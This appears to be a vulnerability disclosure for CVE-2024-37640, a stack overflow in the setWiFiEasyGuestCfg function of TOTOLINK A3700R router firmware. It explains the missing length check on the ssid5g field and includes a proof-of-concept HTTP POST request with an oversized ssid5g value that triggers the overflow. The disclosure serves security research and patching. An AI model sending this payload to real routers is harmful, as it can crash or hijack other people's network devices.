


# TOTOLINK A3700R V9.1.2u.6165_20211012 function setWiFiEasyGuestCfg stack overflow

### Product Information

Product: TOTOLINK A3700R  Firmware Version: V9.1.2u.6165_20211012  

Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### CVE-ID : 

CVE-2024-37640

### Analysis

`V5 ` retrieves the value from the ` ssid5g ` field input by the user and processes it in the ` urldecode ` function. The processed result is stored in the stack.



But without checking if the length exceeds the buffer.

Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 331

Origin: http://127.0.0.1

Connection: keep-alive

Referer: http://127.0.0.1/basic/index.html

Cookie: SESSION_ID=2:1718247599:2

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin


{

"topicurl":"setWiFiEasyGuestCfg",

"wifiOff5g":"0",

"ssid5g":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```


